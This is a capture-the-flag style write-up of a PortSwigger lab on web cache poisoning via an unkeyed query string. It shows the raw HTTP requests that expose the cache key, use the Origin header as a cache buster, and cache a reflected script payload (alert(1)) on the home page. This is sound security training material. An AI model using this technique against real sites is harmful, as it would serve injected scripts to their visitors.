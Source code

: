 
# Web cache poisoning via an unkeyed query string

This lab is vulnerable to web cache poisoning because the query string is unkeyed. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the home page with a response that executes alert(1) in the victim's browser.

Hint:

- If you're struggling, you can use the Pragma: x-get-cache-key header to display the cache key in the response. This applies to some of the other labs as well.

- Although you can't use a query parameter as a cache buster, there is a common request header that will be keyed if present. You can use the Param Miner extension to automatically add a cache buster header to your requests.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/1.png)

---------------------------------------------

First I will add the header to display the cache key in the response headers:

```
GET / HTTP/2
...
Pragma: x-get-cache-key
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/2.png)


Then I added headers for a cache buster:

```
GET / HTTP/2
...
Pragma: x-get-cache-key
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.0a68004803664d558681b8a800650043.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/3.png)


Whatever we add to the “Origin” header will be in X-Cache-Key, we can use it as a cache buster:



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/4.png)


And the query is reflected in the response:



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/5.png)


We can execute an alert(1) with:

```
GET /?evil='/><script>alert(1)</script> HTTP/2
...
Origin: 0a68004803664d558681b8a800650043.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/6.png)


When “X-Cache: hit”, visit “/” and the alert(1) is still in the response:

```
GET / HTTP/2
...
Origin: 0a68004803664d558681b8a800650043.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/7.png)


Send again the payload but without the “Origin” header:

```
GET /?evil='/><script>alert(1)</script> HTTP/2
...
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/8.png)


This will generate an alert to pop up in “/”:






![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/9.png)
![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/10.png)